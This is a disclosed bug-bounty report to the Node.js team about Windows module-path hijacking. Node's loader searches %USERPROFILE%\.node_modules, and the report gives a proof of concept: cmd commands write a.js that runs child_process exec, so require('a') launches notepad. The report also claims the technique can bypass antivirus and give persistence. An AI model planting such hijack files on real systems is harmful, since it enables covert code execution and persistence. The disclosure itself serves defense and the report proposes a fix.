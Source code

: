 # loader.js is not secure

## Report Details
- **Report ID**: 629879
- **URL**: https://hackerone.com/reports/629879
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2019-06-26T07:59:20.338Z
- **Disclosed**: 2020-06-11T12:19:49.586Z

## Reporter
- **Username**: cdpython
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs

## Vulnerability Information
## Summary:

Node.js `loader.js` can be exploited by an attacker 

## The vulnerability

`https://github.com/nodejs/node/blob/a33c3c6d33fa81fa59a5aa95246d7f599e6abdd3/lib/internal/modules/cjs/loader.js#L892`

```js
Module._initPaths = function() {
  var homeDir;
  var nodePath;
  if (isWindows) {
    homeDir = process.env.USERPROFILE; //It can be vulnerable!
    nodePath = process.env.NODE_PATH;
  } else {
    homeDir = safeGetenv('HOME');
    nodePath = safeGetenv('NODE_PATH');
  }

  var prefixDir;

  if (isWindows) {
    prefixDir = path.resolve(process.execPath, '..');
  } else {
    prefixDir = path.resolve(process.execPath, '..', '..');
  }
  var paths = [path.resolve(prefixDir, 'lib', 'node')];

  //can be easily exploited  
  if (homeDir) {
    paths.unshift(path.resolve(homeDir, '.node_libraries'));
    paths.unshift(path.resolve(homeDir, '.node_modules'));
  }

  if (nodePath) {
    paths = nodePath.split(path.delimiter).filter(function pathsFilterCB(path) {
      return !!path;
    }).concat(paths);
  }

  modulePaths = paths;

  Module.globalPaths = modulePaths.slice(0);
};
```

`loader.js` added `%userprofile\.node_moduels` and `%userprofile\.node_libraries` to globalPaths.

It means following behavior can occur easily when tries to `require`

you can test like below

```js
C:\Users\cdpyt\OneDrive\Desktop\rce>node -v
v12.4.0

C:\Users\cdpyt\OneDrive\Desktop\rce>node
Welcome to Node.js v12.4.0.
Type ".help" for more information.
> require('a')
Thrown:
Error: Cannot find module 'a'
Require stack:
- <repl>
    at Function.Module._resolveFilename (internal/modules/cjs/loader.js:623:15)
    at Function.Module._load (internal/modules/cjs/loader.js:527:27)
    at Module.require (internal/modules/cjs/loader.js:681:19)
    at require (internal/modules/cjs/helpers.js:16:16) {
  code: 'MODULE_NOT_FOUND',
  requireStack: [ '<repl>' ]
}
>
```

It looks like normal behavior. 

But some side effect exists.

F516992

let's test like below

```cmd
mkdir %userprofile%\.node_modules
cd %userprofile%\.node_modules
echo const { exec } = require('child_process').exec("notepad") > a.js

C:\Users\cdpyt\.node_modules>dir
 C 드라이브의 볼륨에는 이름이 없습니다.
 볼륨 일련 번호: 1AAF-F852

 C:\Users\cdpyt\.node_modules 디렉터리

2019-06-26  오후 04:01    <DIR>          .
2019-06-26  오후 04:01    <DIR>          ..
2019-06-26  오후 04:01                60 a.js
               1개 파일                  60 바이트
```

run node and `require('a')`

F516991

It is a really serious bug because many software uses nodes on Windows systems!

`node` will attempt to install the library file under the node_modules in the current path or in the initialized path using `npm init`.

a special case is global installation with `npm install -g [package names]`

global installation uses `%appdata%\npm` path.

```cmd
C:\Users\cdpyt\.node_modules>where eslint
C:\Users\cdpyt\AppData\Roaming\npm\eslint
C:\Users\cdpyt\AppData\Roaming\npm\eslint.cmd
```

So, on a Windows system, `node` does not need to use `%userprofile\.node_modules` and `%userprofile\.node_libraries` paths in general cases.

`node` has really powerful features on Windows. 

If this bug is exploited by malicious code, AV can be easily bypassed.


## Steps To Reproduce:

  1. installation node latest version(v12.4.0) on windows
  2. copy and paste below commands to `cmd.exe`
        ``` cmd
        mkdir %userprofile%\.node_modules
        cd %userprofile%\.node_modules
        echo const { exec } = require('child_process').exec("notepad") > a.js
        ```
  3. run node and type `requrie('a')`
  4. notpad.exe will be poped!


## Suggested fix

- Fix the `loader.js` 
```js
if (isWindows) {
    //homeDir = process.env.USERPROFILE;
    nodePath = process.env.NODE_PATH;
  } else {
    homeDir = safeGetenv('HOME');
    nodePath = safeGetenv('NODE_PATH');
  }
```

## Supporting Material/References:
The executables were downloaded from the official web site.

```cmd
C:\Users\cdpyt\.node_modules>node -v
v12.4.0
```

## Impact

If `require` does not find the current path of the module, the node tries to search the global path.

`%userprofile%` path allows you to create a new JavaScript file.

If the target application uses `node` or` electron` and does not do absolute path checking before `require` every time, it is dangerous for potential attacks.

Attackers should target applications that fail to load library files. However, these behaviors are easy to find.

An attacker can create JavaScript files in a variety of ways. This is a more safe way to create pe files.

After the creation to a specific path a javascript file, the target system will permanently infect.

## Attachments
- notepad.PNG
- notfound.PNG
